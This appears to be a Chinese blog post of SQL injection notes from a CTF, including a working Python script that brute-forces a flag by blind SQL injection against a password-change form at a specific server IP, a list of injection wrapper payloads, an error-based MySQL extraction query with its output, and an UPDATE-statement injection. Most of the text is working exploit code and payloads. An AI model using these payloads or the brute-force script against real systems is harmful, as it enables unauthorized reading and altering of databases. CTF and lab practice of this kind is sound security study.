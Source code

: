 ```yaml
---
title: lilly
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
---
```


非常不错的爆破脚本

{% highlight python %}
import requests, random, string

# password='=(select  CASE WHEN length(flag)=26 THEN  1 ELSE 1 MATCH '(' END from flag)='
# password='=(select  CASE WHEN substr(flag, 1, 1)='1' THEN  1 ELSE 1 MATCH '(' END from flag)='
# charset = string.digits + "_" + string.letters + "{}"
#0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
# charset = [chr(i) for i in range(256)]
charset = string.printable

#SELECT CASE 3 WHEN 1 THEN 'one' WHEN 2 THEN 'two' ELSE 'more' END;
sql_template = "'=(select  CASE WHEN substr(flag, %d, 1)='%s' THEN  1 ELSE (1 match 1) END from flag)='"
s = requests.Session()

#finally we get the flag = '0CTF{R0t_?_S8rRy_1_doNt_N}'
flag=''

while 1:
	# gen creds
	creds = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(10))
	
	data = {'username': creds,'password':creds, 'email':creds}
	# register
	r = s.post("http://202.112.28.113:5000/register", data=data)
	if r.text.find("Now You can log in:") == -1:
		continue
		
	# login
	r = s.post("http://202.112.28.113:5000/login", data=data)
	if r.text.find("Modify password") == -1:
		continue
	
	# inject
	i = len(flag) + 1
	print i, 
	for c in charset:
		if c == '-' or c == '/':
			# blacklisted shit !
			continue
		
		data['password'] = sql_template % (i, c)
		r = s.post("http://202.112.28.113:5000/modify", data=data)

		if r.text.find("HAHAHA,YOUR PASSWORD HAS BEEN UPDATED") != -1:
			flag += c
			print repr(flag)
			break
{% endhighlight %}


{% raw %}
<pre>
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "
''=(payload)=''
</pre>
{% endraw %}


经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)

准备测试数据：
Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据

新建flag表：
CREATE TABLE flag(id int(3) NOT NULL AUTO_INCREMENT, flag varchar(64) NOT NULL,PRIMARY KEY (id));
insert into flag(id,flag) values(1,'0CTF{R0t_?_S8rRy_1_doNt_N}');

mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'


show databases;
use security;
show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| flag               |
| referers           |
| uagents            |
| users              |
+--------------------+
update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

